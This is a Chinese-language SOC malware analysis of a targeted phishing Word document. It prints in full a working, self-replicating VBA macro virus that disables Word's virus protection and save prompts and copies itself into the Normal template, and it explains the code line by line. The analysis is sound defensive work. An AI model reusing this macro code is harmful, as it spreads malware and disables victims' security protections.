


## 事件起因

客户IP因访问业务时多打了几个标点，WAF判定为攻击事件而被ban掉，故前去解封，顺便逛一圈其他设备；发现EDR拦截了一个word文件，故SOC开始对其进行分析。（ps:给同事发病毒的时候一定要尽快告知详细新情况....）

## 过程

某区下属SOC平台捕获到针对特定委办局投毒样本，其内容大致为“xx区环xxxx处置情况”，其发件单位为“xx市xx局xx分局”。文件上传后被EDR拦截，SOC对文件分析研判为宏投毒，因其疑似真实文件篡改并针对单独目标投递，故怀疑其为定向投毒。由于该业务环境为Linux，无Microsoft，故判断对业务无影响，暂定无需隔离。

## 样本分析

> 沙箱分析

VT：



微步：



> 初始样本

| 规则                      | 描述                                                     | 源     | 分析环境                     |
| ------------------------- | -------------------------------------------------------- | ------ | ---------------------------- |
| `Contains_VBA_macro_code` | Detect a MS Office document with embedded VBA macro code | Github | Win10(1903 64bit,Office2016) |

> 格式深度分析

嵌入宏

| 行为类型   | 关键字         | 描述                                                         |
| ---------- | -------------- | ------------------------------------------------------------ |
| AutoExec   | Document_Open  | Runs when the Word or Publisher document is opened           |
| Suspicious | KILL           | May delete a file                                            |
| Suspicious | VBProject      | May attempt to modify the VBA code (self-modification)       |
| Suspicious | VBComponents   | May attempt to modify the VBA code (self-modification)       |
| Suspicious | CodeModule     | May attempt to modify the VBA code (self-modification)       |
| Suspicious | Base64 Strings | Base64-encoded strings were detected, may be used to obfuscate strings (option --decode to see all) |

宏代码

`ThisDocument.cls`

```vb
'APMP
'KILL
Private Sub Document_Open()
   On Error Resume Next
   Application.DisplayStatusBar = False
   Options.VirusProtection = False
   Options.SaveNormalPrompt = False
   MyCode = ThisDocument.VBProject.VBComponents(1).CodeModule.Lines(1, 20)
   Set Host = NormalTemplate.VBProject.VBComponents(1).CodeModule
   If ThisDocument = NormalTemplate Then _
      Set Host = ActiveDocument.VBProject.VBComponents(1).CodeModule
   With Host
       If .Lines(1, 1) = "APMP" & .Lines(1, 2) <> "KILL" Then
          .DeleteLines 1, .CountOfLines
          .InsertLines 1, MyCode
          If ThisDocument = NormalTemplate Then _
             ActiveDocument.SaveAs ActiveDocument.FullName
       End If
   End With
End Sub
```

1. 这个宏在文档打开时执行

   ```vb
   Private Sub Document_Open()
   ```

2. 子例程包含试图通过隐藏状态栏、关闭病毒防护和禁用保存提示来禁用安全功能的代码。

   ```vb
   '禁用错误消息:
   On Error Resume Next
   
   '隐藏状态栏和关闭病毒保护:
   Application.DisplayStatusBar = False	'隐藏状态栏。
   Options.VirusProtection = False			'关闭病毒保护选项。
   Options.SaveNormalPrompt = False		'关闭保存 Normal 模板时的提示。
   ```

3. 该宏将其自身代码的前 20 行复制到变量`MyCode`中。然后，它尝试识别`Host`文档，该文档是`Normal.dotm`模板或当前活动文档。

   ```vb
   MyCode = ThisDocument.VBProject.VBProject.VBComponents(1).CodeModule.Lines(1, 20)
      Set Host = NormalTemplate.VBProject.VBComponents(1).CodeModule
      If ThisDocument = NormalTemplate Then _
         Set Host = ActiveDocument.VBProject.VBComponents(1).CodeModule
   ```

4. 代码检查Host文档代码模块前两行中的特定字符串（`APMP`和`KILL`）。如果`APMP`存在而`KILL`不存在，则宏将删除`Host`文档的全部内容，并插入`MyCode`的内容。实际上是用其自身替换主机宏。如果感染目标是 Normal 模板，则它会强制保存活动文档。

   ```vb
      With Host
          If .Lines(1, 1) = "APMP" & .Lines(1, 2) <> "KILL" Then
             .DeleteLines 1, .CountOfLines
             .InsertLines 1, MyCode
             If ThisDocument = NormalTemplate Then _
                ActiveDocument.SaveAs ActiveDocument.FullName
   ```

## 行为分析

借用部门老大的分析结果：

> 由样本代码分析可得知其目的为迭代更新目标主机上已经被污染过的模板，经对比发现类似相同VBA脚本投毒最早出现时间2014-2015年之间，目标皆为境内，因主要为代码迭代行为并没有出现外联，又因其会对公用模板中的APMP以及KILL做监测并做出迭代行为，同时其存在定向钓鱼特征，所以断定其在特定情况下进行快速传播迭代后，配合其他攻击对行业进行打击的可能性较高,故怀疑为某组织下属行业性僵尸网络。

# 
